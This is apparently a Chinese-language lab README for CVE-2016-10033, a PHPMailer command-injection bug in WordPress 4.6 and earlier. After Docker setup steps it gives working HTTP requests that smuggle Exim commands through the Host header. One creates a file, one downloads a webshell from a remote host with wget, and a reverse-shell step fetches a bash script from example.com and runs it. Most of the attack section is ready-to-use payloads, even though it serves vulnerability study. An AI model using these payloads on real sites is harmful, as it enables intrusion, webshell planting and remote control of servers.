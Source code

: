## WordPress <= 4.6 命令执行漏洞(PHPMailer)(CVE-2016-10033)

### 漏洞信息

 WordPress 是一种使用 PHP 语言开发的博客平台，用户可以在支持 PHP 和 MySQL 数据库的服务器上架设属于自己的网站。也可以把 WordPress 当作一个内容管理系统（CMS）来使用。WordPress 使用 PHPMailer 组件向用户发送邮件。PHPMailer(版本 < 5.2.18)存在远程命令执行漏洞，攻击者只需巧妙地构造出一个恶意邮箱地址，即可写入任意文件，造成远程命令执行的危害。

### 影响版本

WordPress <= 4.6

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
Mysql | root | root
/wp-admin/ | admin | admin123

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:w_wordpress_6
 ```

2. 启动环境

 ```
$ docker run -d -p 8000:80 medicean/vulapps:w_wordpress_6
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

 访问 http://127.0.0.1:8000 看到 WordPress 主界面代表启动成功


### POC

> 假如目标地址为： http://127.0.0.1:8000/

1. 把下面的HTTP报文复制到 BurpSuite Repeater 中，点击 Go 按钮，填写目标 IP 和 端口（例如, IP填 127.0.0.1 端口填 80）

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}var${substr{0}{1}{$spool_directory}}www${substr{0}{1}{$spool_directory}}html${substr{0}{1}{$spool_directory}}vuln}} null)
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

2. 访问：http://127.0.0.1:8000/vuln

看到返回状态码为 200 代表已经成功创建了 `/var/www/html/vuln` 文件

> 可在发包之前访问该地址，会出现 404

### Exp

思路： 在远程 HTTP 服务器上创建一个文本文件，通过 `wget` 下载到目标机器上

#### 向目标写 WebShell（强烈不推荐）

> 都能命令执行了，还传什么 WebShell

1. 执行命令如下：

```
/usr/bin/wget --output-document /var/www/html/webshell.php raw.githubusercontent.com/medicean/vulapps/master/w/wordpress/6/webshell.php
```

> 注意： 
> 1. 远程 URL 中不要有 `http://`
> 2. 所有字母必须小写
> 3. 所有 / 用 `${substr{0}{1}{$spool_directory}}` 代替
> 4. 所有 空格 用 `${substr{10}{1}{$tod_log}}` 代替

报文如下(根据实际情况替换 user_login, 默认是 admin)：

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}wget${substr{10}{1}{$tod_log}}--output-document${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}var${substr{0}{1}{$spool_directory}}www${substr{0}{1}{$spool_directory}}html${substr{0}{1}{$spool_directory}}webshell.php${substr{10}{1}{$tod_log}}raw.githubusercontent.com${substr{0}{1}{$spool_directory}}medicean${substr{0}{1}{$spool_directory}}vulapps${substr{0}{1}{$spool_directory}}master${substr{0}{1}{$spool_directory}}w${substr{0}{1}{$spool_directory}}wordpress${substr{0}{1}{$spool_directory}}6${substr{0}{1}{$spool_directory}}webshell.php}} null) null)
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

2. 访问 http://127.0.0.1:8000/webshell.php

#### 反弹 Shell（推荐）

远程文本文件内容如果是 bash 脚本，可在下载到目标后，直接用 `/bin/bash` 来执行该文件

1. 下载bash脚本到目标

```
/usr/bin/wget --output-document /tmp/rce example.com/1.txt
```

2. 执行

```
/bin/bash /tmp/rce
```

### 相关链接

* [WordPress Core 4.6 - Unauthenticated Remote Code Execution (RCE) PoC Exploit](https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html)
